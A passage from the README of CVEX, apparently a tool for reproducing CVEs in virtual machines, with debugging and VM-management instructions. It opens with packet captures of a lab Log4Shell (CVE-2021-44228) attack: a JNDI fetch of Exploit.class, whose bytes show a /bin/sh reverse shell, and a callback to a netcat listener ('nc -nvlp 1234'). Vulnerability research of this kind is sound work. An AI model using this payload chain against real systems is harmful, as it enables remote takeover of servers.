JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Managing VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

